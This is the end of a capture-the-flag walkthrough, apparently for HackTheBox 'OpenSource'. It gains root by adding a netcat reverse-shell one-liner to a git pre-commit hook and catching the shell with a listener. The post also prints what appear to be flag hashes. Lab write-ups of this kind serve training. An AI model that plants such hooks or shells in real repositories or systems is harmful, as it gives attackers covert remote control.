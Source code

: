 ``` c180f7ca29bfe2be53f58b28fd269ac2 ```
fi
```


We can use the [GTFO bins for git](https://gtfobins.github.io/gtfobins/git/). Actually, there is a set of commands that will run automatically before making the commit. To do it follow the instructions:


```bash
cd /home/dev01
git status 
cd .git/hooks
nano pre-commit.sample

# Add your revshell to the beginning
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.67 5455 >/tmp/f

# Change the name to pre-commit so it is executed
mv pre-commit.sample pre-commit

# Create your listener and wait for the call
nc -lvnp 5455
```

And we are in after some minutes:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/10_root.png" width="90%"/>
</p>


``` 3fafdbc164c04e617df5cb09cc0f67f7 ```


That's all, thanks for reading!